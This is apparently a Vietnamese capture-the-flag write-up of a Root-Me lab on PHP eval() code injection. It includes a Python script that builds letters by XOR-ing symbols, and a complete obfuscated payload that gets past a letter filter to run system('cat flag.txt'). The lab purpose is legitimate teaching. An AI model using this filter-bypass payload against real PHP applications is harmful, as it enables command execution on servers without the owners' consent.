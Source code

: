 # Code Injection
Bài này em sẽ dựng lại 1 bài lab trên root-me về hàm `eval()` trong PHP

`eval()` là hàm có thể thực thi được code PHP vì vậy nếu sử dụng nó không an toàn có thể nguy hiểm khi kẻ tấn công có thể inject mã độc vào và app sẽ thực thi nó.

`Description: The flag is in flag.txt file.`
<br><br>

Web có nhận vào input và sẽ thực thi mã: 

![image](https://user-images.githubusercontent.com/92881216/233818249-f9b8170f-9830-489e-b6d9-353485eea625.png)

Khi nhập `1+2` và kết quả:

![image](https://user-images.githubusercontent.com/92881216/233818284-017a457f-329b-495b-9095-e1e9a9fe56ee.png)

Hướng khai thắc ở đây là sẽ truyền vào hàm độc hại có thể thực thi câu lệnh hệ thống như: `system()` hoặc `exec()`,... để đọc `flag.txt`

Tuy nhiên web không chấp nhận đầu vào là ký tự alphabet và ký tự ``` ` ``` : ```(preg_match('/[a-zA-Z`]/', $_GET['input']))```.

Để giải bài này có 2 phương pháp ở <a href="https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/" >đây</a>

Em sẽ làm cách 1 vì nó đơn giản và ngắn gọn hơn.
Đó là sử dụng `XOR` từ các ký tự khác để tạo ra chữ cái.

Ví dụ: 

'(' XOR ']' được `s` từ đó sẽ xây dựng ra payload: `system('cat flag.txt')`

Tạo `script` đơn giản băng python:
```
LETTERS="!@$%()[]_^-={}.|><,;"
text="system('cat flag.txt')"

for n in text:
    for i in LETTERS:
        for j in LETTERS:
            if ord(i) ^ ord(j) == ord(n):
                print(f"('{i}'^'{j}')={n}")
                break
            if n=='(' or n==')' or n=="'" or n==".":
                print(f"{n}={n}")
                break
        else:
            continue
        break
```
Kết quả:

![image](https://user-images.githubusercontent.com/92881216/233818827-4c47e422-f934-4d6a-a60a-bdd0a1e99cc4.png)

Tuy nhiên khi nhập vào input nó sẽ chỉ in ra dạng text. Vì vậy ta cần tìm cách gọi hàm để nó thực thi luôn. Một cách gọi làm ở đây sẽ là `(function)()`

Ghép các payload trên thành payload hoàn chỉnh:
```
(('('^'[').('$'^']').('('^'[').(')'^']').('@'^'%').('@'^'-'))((']'^'>').('!'^'@').(')'^']').('['^'{').('['^'=').('@'^',').('!'^'@').('['^'<').'.'.(')'^']').('%'^']').(')'^']'))
```
Payload ứng với `system(cat flag.txt)`

Kết quả: 

![image](https://user-images.githubusercontent.com/92881216/233818926-e64e3b6e-b1ac-4344-8ed3-47f08a71706c.png)



